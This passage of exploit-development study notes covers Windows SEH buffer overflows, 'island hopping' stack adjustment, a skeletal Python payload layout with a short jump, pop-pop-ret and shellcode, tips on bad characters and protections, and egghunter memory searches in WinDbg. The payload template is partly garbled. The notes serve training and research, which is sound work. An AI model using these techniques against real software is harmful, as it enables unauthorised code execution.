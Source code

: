 ## 6 - Island Hopping
In island hopping we calcluate the length if bytes between the `esp` and start of our shellcode, That way when we get the value we can add it to `esp/sp` and elemenat it and `JMP` to the `esp` which will be indicating to our shellcode.
- steps:
```
Windbg> ? shellcode_address - @esp
```

- Generate Opcodes
```
msf-metasm_shell
> add sp, value
```
We use `sp` to avoid null bytes

## 7 - Executing shellcode
The structure of our payload would be the following
```python 
filler = b"\x41" * (size)
nseh = b"\xeb\x08\x90\x90"
seh = b"pop;pop;ret;"
add_esp = b"opcode"
shellcode = "our_shellcode"
padding2 = b"\x90" * (size - len(shellcode - padding - nseh - seh - add_esp - jmp_esp))

buffer = padding + nseh + seh + shellcode + padding2

```
## Tips
- If you have a small buffer space you can do the following
	- Find a register that indicates to the start of your shellcode and do use `call reg` instruction or `JMP reg`.
	- Also you could use `JMP` backward or negative `JMP`
	- Don't forget to fill the remains bytes with `\x90` for the stack aligen to avoid crashes
	- You can use also Island Hopping technique
	- If u got a small buffer to detect badchars, Use the small buffer which fits the amount and repeat until get all badchars
	- Use `narly` to identify security protections on the modules
	- Also you can use process hacker `Properties` on the process to check the protections and loaded modules and each protections also.
	- The the address of the instruction or the module contains null-byte, then do partcial overwrite for example if the address of the instruction as the following `00414E7A`, then set the `EIP` as `414E7A`.

# Egghunters
## Egghunting
Manually send a dummy shellcode with an egg(dword):
```
dummmy = b"w00tw00t"
duy += b"\x41"*400
```
then search for it all over the memory space using `Windbg` command:
```
s -a 0 L?80000000 "w00tw00t"
```
After that to detremin where our shellcode is located we can take the found address and check it:
```
!address your_Address
```
![2983fe501299464784c0f9d7f11b3fae.png](:/92bb0ed393c845f3aa05950f2293d8c9)